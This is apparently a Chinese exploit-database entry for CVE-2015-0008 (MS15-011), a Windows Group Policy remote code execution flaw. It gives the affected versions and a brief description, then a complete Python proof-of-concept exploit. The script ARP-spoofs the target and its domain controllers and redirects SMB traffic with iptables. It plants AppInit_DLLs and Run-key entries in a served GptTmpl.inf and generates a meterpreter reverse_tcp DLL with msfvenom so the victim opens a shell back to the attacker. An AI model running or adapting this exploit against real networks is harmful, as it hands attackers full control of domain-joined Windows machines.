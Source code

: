 # CVE-2015-0008  #
## 受影响版本 ##
Microsoft Windows Server 2003 SP2，Windows Vista SP2，Windows Server 2008 SP2和R2 SP1，Windows 7 SP1，Windows 8，Windows 8.1，Windows Server 2012 Gold和R2，Windows RT Gold和8.1
## 平台 ##
windows
## 测试系统 ##
windows 8
## 类型 ##
远程
## 描述 ##
 当已加入域的系统连接到域控制器时，在组策略如何接收和应用策略数据方面存在远程代码执行漏洞。成功利用此漏洞的攻击者可以完全控制受影响的系统。
## POC ##
<pre class="prettyprit lang-javascript">
import argparse
import os
import subprocess
import socket
import fcntl
import struct
 
# MS15-011 Exploit.
# For more information and any updates/additions this exploit see the following Git Repo: https://github.com/Freakazoidile/Exploit_Dev/tree/master/MS15-011
# Example usage: python3 ms15-011.py -t 172.66.10.2 -d 172.66.10.10 -i eth1
# Example usage with multiple DC&#x27;s: python3 ms15-011.py -t 172.66.10.2 -d 172.66.10.10 -d 172.66.10.11 -d 172.66.10.12 -i eth1
# Questions @Freakazoidile on twitter or make an issue on the GitHub repo. Enjoy.
 
def arpSpoof(interface, hostIP, targetIP):
    arpCmd = &quot;arpspoof -i %s %s %s &quot; % (interface, hostIP, targetIP)
    arpArgs = arpCmd.split()
    print(&quot;Arpspoofing: %s&quot; % (arpArgs))
    p = subprocess.Popen(arpArgs, stdout=subprocess.PIPE, stderr=subprocess.STDOUT)
 
     
def karmaSMB(hostIP):
    print(&quot;reverting GptTmpl.inf from bak&quot;)
    os.system(&quot;cp GptTmpl.inf.bak GptTmpl.inf&quot;)
    appInit = &#x27;MACHINE\\SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Windows\\AppInit_DLLs=1,&quot;\\\\%s\\SYSVOL\\share.dll&quot;\r\n&#x27; % (hostIP)
    CURunKey = &#x27;MACHINE\\SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run\\Key=1,&quot;rundll32.exe \\\\%s\\SYSVOL\\share.dll&quot;,1\r\n&#x27; % (hostIP)
    f = open(&quot;GptTmpl.inf&quot;,&quot;a&quot;, encoding=&#x27;utf-16le&#x27;)
    f.write(appInit)
    f.write(CURunKey)
    f.close()
     
    path = os.getcwd()
     
    fConfig = open(&quot;smb.conf&quot;,&quot;w&quot;)
    fConfig.write(&quot;ini = &quot;+path+&quot;/gpt.ini\ninf = &quot;+path+&quot;/GptTmpl.inf\ndll = &quot;+path+&quot;/shell.dll\n&quot;)
    fConfig.close()
 
    karmaCmd = &quot;python karmaSMB.py -config smb.conf -smb2support ./ &quot;
    os.system(karmaCmd)
 
 
def iptables_config(targetIP, hostIP):
    print(&#x27;[+] Running command: echo &quot;1&quot; &gt; /proc/sys/net/ipv4/ip_forward&#x27;)
    print(&#x27;[+] Running command: iptables -t nat -A PREROUTING -p tcp -s %s --destination-port 445 -j DNAT --to-destination %s&#x27; % (targetIP, hostIP))
    print(&#x27;[+] Running command: iptables -t nat -A PREROUTING -p tcp -s %s --destination-port 139 -j DNAT --to-destination %s&#x27; % (targetIP, hostIP))
    print(&#x27;[+] Running command: iptables -t nat -A POSTROUTING -j MASQUERADE&#x27;)
    os.system(&#x27;echo &quot;1&quot; &gt; /proc/sys/net/ipv4/ip_forward&#x27;)
    os.system(&#x27;iptables -t nat -A PREROUTING -p tcp -s %s --destination-port 445 -j DNAT --to-destination %s&#x27; % (targetIP, hostIP))
    os.system(&#x27;iptables -t nat -A PREROUTING -p tcp -s %s --destination-port 139 -j DNAT --to-destination %s&#x27; % (targetIP, hostIP))
    os.system(&#x27;iptables -t nat -A POSTROUTING -j MASQUERADE&#x27;)
 
 
def get_interface_address(ifname):
    s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
    return socket.inet_ntoa(fcntl.ioctl(s.fileno(), 0x8915, struct.pack(&#x27;256s&#x27;, bytes(ifname[:15], &#x27;utf-8&#x27;)))[20:24])
 
def generatePayload(lhost, lport):
    print(&quot;generating payload(s) and metasploit resource file&quot;)
    msfDll = &quot;msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=%s lport=%s -f dll -o shell.dll&quot; % (lhost, lport)
    os.system(msfDll)
    msfResource = &quot;use multi/handler\nset payload windows/x64/meterpreter/reverse_tcp\nset lhost %s\nset lport %s\nset exitonsession false\nexploit -j\n&quot; % (lhost, lport)
    print(&quot;metasploit resource script: %s&quot; % msfResource)
    print (&quot;metasploit resource script written to meta_resource.rc type &#x27;msfconsole -r meta_resource.rc&#x27; to launch metasploit and stage a listener automatically&quot;)
     
    file = open(&quot;meta_resource.rc&quot;, &quot;w+&quot;)
    file.write(msfResource)
    file.close()
         
 
 
if __name__ == &#x27;__main__&#x27;:
 
    parser = argparse.ArgumentParser()
 
    # Add arguments
    parser.add_argument(&quot;-t&quot;, &quot;--target_ip&quot;, help=&quot;The IP of the target machine vulnerable to ms15-011/14&quot;, required=True)
    parser.add_argument(&quot;-d&quot;, &quot;--domain_controller&quot;, help=&quot;The IP of the domain controller(s) in the target domain. Use this argument multiple times when multiple domain contollers are preset.\nE.G: -d 172.66.10.10 -d 172.66.10.11&quot;, action=&#x27;append&#x27;, required=True)
    parser.add_argument(&quot;-i&quot;, &quot;--interface&quot;, help=&quot;The interface to use. E.G eth0&quot;, required=True)
    parser.add_argument(&quot;-l&quot;, &quot;--lhost&quot;, help=&quot;The IP to listen for incoming connections on for reverse shell. This is optional, uses the IP from the provided interface by default. E.G 192.168.5.1&quot;, required=False)
    parser.add_argument(&quot;-p&quot;, &quot;--lport&quot;, help=&quot;The port to listen connections on for reverse shell. If not specified 4444 is used. E.G 443&quot;, required=False)
 
    args = parser.parse_args()
 
    # Check for KarmaSMB and GptTmpl.inf.bak, if missing download git repo with these files.
    print (&quot;checking for missing file(s)&quot;)
    if not os.path.isfile(&quot;karmaSMB.py&quot;) and not os.path.isfile(&quot;GptTmpl.inf.bak&quot;):
        print(&quot;Requirements missing. Downloading required files from github&quot;)
        os.system(&quot;git clone https://github.com/Freakazoidile/MS15-011-Files&quot;)
        os.system(&quot;mv MS15-011-Files/* . &amp;&amp; rm -rf MS15-011-Files/&quot;)
 
    # Get the provided interfaces IP address
    ipAddr = get_interface_address(args.interface)
 
    if args.lhost is not None:
        lhost = args.lhost
    else:
        lhost = ipAddr
 
    if args.lport is not None:
        lport = args.lport
    else:
        lport = &#x27;4444&#x27;
     
 
    dcSpoof = &quot;&quot;
    dcCommaList = &quot;&quot;
    count = 0
   
    # loop over the domain controllers, poison each and target the host IP
    # create a comma separated list of DC&#x27;s
    # create a &quot;-t&quot; separate list of DC&#x27;s for use with arpspoof
    for dc in args.domain_controller:
        dcSpoof += &quot;-t %s &quot; % (dc)
        if count &gt; 0: 
            dcCommaList += &quot;,%s&quot; % (dc)
        else:
            dcCommaList += &quot;%s&quot; % (dc)
 
        arpSpoof(args.interface, dc, &quot;-t %s&quot; % (args.target_ip))
        count += 1
 
    # arpspoof the target and all of the DC&#x27;s
    arpSpoof(args.interface, args.target_ip, dcSpoof)
 
    # generate payloads
    generatePayload(lhost, lport)
 
    # Setup iptables forwarding rules
    iptables_config(args.target_ip, ipAddr)
 
    #run Karmba SMB Server
    karmaSMB(ipAddr)
    
     
    print(&quot;Targeting %s by arp spoofing %s and domain controllers: %s &quot; % (args.target_ip, args.target_ip, args.domain_controllers))
    print(&quot;If you interupt/stop the exploit ensure you stop all instances of arpspoof and flush firewall rules!&quot;)
</pre>